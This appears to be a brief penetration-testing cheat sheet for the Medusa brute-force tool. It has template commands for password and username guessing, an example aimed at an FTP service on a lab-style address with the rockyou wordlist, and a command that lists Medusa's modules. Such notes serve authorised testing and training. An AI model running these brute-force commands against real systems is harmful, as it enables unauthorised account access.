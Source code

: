-- -
### General Usage
```bash
# password bruteforce 
medusa -u <user> -P <wordlist> -h <ip> -M <service>
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 

# username bruteforce
medusa -U <wordlist -p <password> -h <ip> -M <service>
```
### See available modules
```bash
 ls /usr/lib/x86_64-linux-gnu/medusa/modules
```